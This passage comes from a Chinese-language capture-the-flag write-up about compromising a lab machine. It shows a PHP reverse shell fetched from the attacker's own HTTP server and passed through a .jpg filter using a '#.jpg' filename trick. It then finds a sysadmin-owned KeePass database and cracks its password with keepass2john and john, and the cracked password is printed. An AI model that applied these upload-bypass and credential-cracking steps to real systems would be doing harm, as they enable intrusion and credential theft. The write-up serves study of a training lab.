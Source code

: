 ```http
POST /cloud/ HTTP/1.1
Host: 10.10.102.57
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://10.10.102.57
Connection: keep-alive
Referer: http://10.10.102.57/cloud/
Cookie: PHPSESSID=fl3sjopa95a5i7o1eqpjse4se9
Upgrade-Insecure-Requests: 1
Priority: u=0, i

url=http%3A%2F%2Flocalhost%2Fhome
```

- 不管怎樣，先測試功能，我馬上在自己的主機上開了一個python http server並生成一張圖片，在External URL中輸入 `http://10.4.9.189:8000/test.jpg` 之後會成功上傳並提供一個Image Link: `http://10.10.102.57/cloud/images/test.jpg`

- 並且發現有對文件名字做過濾，只接受 .jpg 格式，因此我們嘗試上傳一個php-reverse-shell的文件並通過修改文件名的方式來繞過檢驗機制: `http://10.4.9.189:8000/reverse.php#.jpg`
- 成功上傳後會獲得一個暫時性的圖片URL鏈接，馬上在瀏覽器中輸入這個鏈接觸發執行這個PHP文件
- 成功獲得reverse shell，用戶為www-data

### Step 4. 提權(user)
- 首先 `ls -l /home` 查看有哪些用戶并且 user flag 放在哪個用戶底下就代表我們要提權到哪個用戶
- 發現 `local.txt` 被放在用戶 **sysadmin** 下，并且 www-data 沒辦法直接讀
- 那麽首先先查有哪些文件 user=sysadmin 并且是不常見的:

```bash
$ find / -user sysadmin -perm -400 2>/dev/null | grep -v proc
/opt/dataset.kdbx
/home/sysadmin
/home/sysadmin/.sudo_as_admin_successful
/home/sysadmin/.ssh
/home/sysadmin/.bash_history
/home/sysadmin/scripts/lib
/home/sysadmin/local.txt
/home/sysadmin/.bashrc
/home/sysadmin/.cache
/home/sysadmin/.gnupg
/home/sysadmin/.bash_logout
/home/sysadmin/.profile
```

- 發現一個 `dataset.kdbx` 並且通過查詢得知是一個由 KeePass 密碼安全管理工具生成的一個文件，裏面應該有 sysadmin 的相關密碼
- 使用 `keepassxc` 嘗試讀出但發現需要密碼，那麽看看 john 或 hashcat 有沒有相應的工具可以爆破的
- 查到 `keepass2john` 可以將 .kdbx 轉爲適合john處理的格式並使用 john 破解: `keepass2john dataset.kdbx > dataset && john --wordlist=rockyou.txt dataset`

```bash
└─# john --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt dataset
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (dataset)     
1g 0:00:00:23 DONE (2025-06-29 21:06) 0.04269g/s 39.28p/s 39.28c/s 39.28C/s 741852963
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
